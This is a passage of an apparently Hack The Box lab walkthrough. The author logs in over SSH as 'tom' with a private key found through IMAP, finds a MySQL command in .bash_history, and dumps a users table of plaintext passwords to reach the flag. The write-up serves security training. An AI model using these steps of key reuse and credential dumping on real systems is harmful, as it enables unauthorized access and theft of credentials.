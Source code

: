 With the ssh key obtained in IMAP we can build and id_rsa file. After that we have to grant the correct privileges to the file and we can log in to SSH with tom credentials

```bash
vim id_rsa
...
Paste the public key and save
...

chmod 600 id_rsa
ssh -i id_rsa tom@10.129.216.52
```

Inside the server, we can check all the files and folders but nothing cames up. If we check the .bash_history file (~/.bash_history) we can find that a mysql command was used.

```bash
mysql -u tom -p
```

So lets use it

```bash
mysql -u tom -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 8.0.27-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

We are in the mysql database, lets find information

```bash
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| users              |
+--------------------+
5 rows in set (0.01 sec)

mysql> use users;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------+
| Tables_in_users |
+-----------------+
| users           |
+-----------------+
1 row in set (0.00 sec)

mysql> select * from users;


+------+-------------------+------------------------------+
| id   | username          | password                     |
+------+-------------------+------------------------------+
|    1 | ppavlata0         | 6znAfvTbB2                   |
|    2 | ktofanini1        | TP2NxFD62e                   |
|    3 | rallwell2         | t1t7WaqvEfv                  |
|    4 | efernier3         | ZRYOBO9PI                    |
...
|  150 | HTB               | cr3n4o7rzse7rzhnckhssncif7ds |
...
```

And there it is, the HTB password